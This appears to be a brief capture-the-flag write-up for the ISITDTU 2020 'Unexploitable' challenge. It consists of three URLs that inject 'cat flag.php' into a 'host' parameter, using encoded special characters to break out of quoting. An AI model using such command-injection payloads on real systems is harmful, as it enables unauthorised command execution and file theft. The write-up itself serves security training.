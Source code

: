Solution for Unexploitable (ISITDTU 2020)

Just use special character to escapse quote

http://13.68.153.110/unexploitable/?host=8.8.8.8%82;%20cat%20flag.php;%20%82
http://13.68.153.110/unexploitable/?host=8.8.8.8%91;%20cat%20flag.php;%20%91
http://13.68.153.110/unexploitable/?host=8.8.8.8%92;%20cat%20flag.php;%20%92



![image](/show.png)